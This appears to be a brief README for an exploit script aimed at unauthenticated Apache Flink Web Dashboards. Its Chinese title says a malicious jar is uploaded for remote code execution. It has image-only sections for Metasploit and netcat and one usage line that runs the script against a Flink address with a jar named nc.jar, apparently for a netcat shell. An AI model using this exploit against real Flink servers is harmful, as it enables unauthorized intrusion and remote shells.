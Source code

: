 # Apache Flink Web Dashboard 未授权访问，上传恶意jar导致远程代码命令执行

## msf

![](./flink-msf.gif)

## nc

![](./flink-nc.gif)


## python usage:

`python 02-Flink.py http://10.10.20.100:8081 nc.jar`

![](./flink.jpg)


